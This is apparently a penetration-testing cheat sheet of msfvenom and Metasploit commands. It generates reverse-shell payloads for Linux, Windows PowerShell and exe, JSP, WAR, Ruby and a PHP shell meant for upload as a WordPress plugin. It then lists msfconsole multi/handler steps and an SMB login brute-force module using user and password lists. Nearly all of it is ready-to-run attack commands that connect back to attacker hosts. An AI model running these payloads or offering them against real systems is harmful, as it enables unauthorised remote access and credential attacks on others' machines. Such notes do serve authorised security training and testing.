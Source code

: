 ## Linux Single stage shell code
    - Linux 32bit single stage reverse, output shell code python:
        > msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4444 -b "\x00\x0a" -f py -v shellcode

## Powershell
    - Windows 32bit single stage reverse, output powershell shell code:
        > msfvenom -p windows/meterpreter/reverse_tcp LHOST=191.168.119.135 LPORT=4444 -f powershell

## Java files
    - Windows single stage reverse, output jsp file:
        > msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.135 LPORT=443 -f raw -o bummer.jsp
    - Windows single stage reverse, output war file:
        > msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=4444 -f war -o pwn.war

## Wordpress plugin
    - Wordpress php used for plugins
        > msfvenom -p php/reverse_php LHOST=192.168.49.89 LPORT=80 -f raw > shell.php
        - Go to the "wordpress" section of this document for more info on how to create a plugin and upload

## Ruby
    - ruby reverse shell
    > msfvenom -p cmd/unix/reverse_ruby lhost=192.168.1.103 lport=5555 R

## Metasploit
### Windows Multi Stage
    - Windows 32bit multi stage reverse, output .exe:
        > msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.135 LPORT=4444 -f exe -o shellmeX86p9999MP.exe
    - In msfconsole
        > use multi/handler
        > set payload windows/meterpreter/reverse_https
        > set LHOST
        > set LPORT
        > show options
        > exploit -j
        > jobs
        > jobs -i 0

### Windows SMB login
    > use auxiliary/scanner/smb/smb_login
    > set rhosts 192.168.1.105
    > set user_file user.txt
    > set pass_file pass.txt
    > set smbdomain ignite
    > exploit
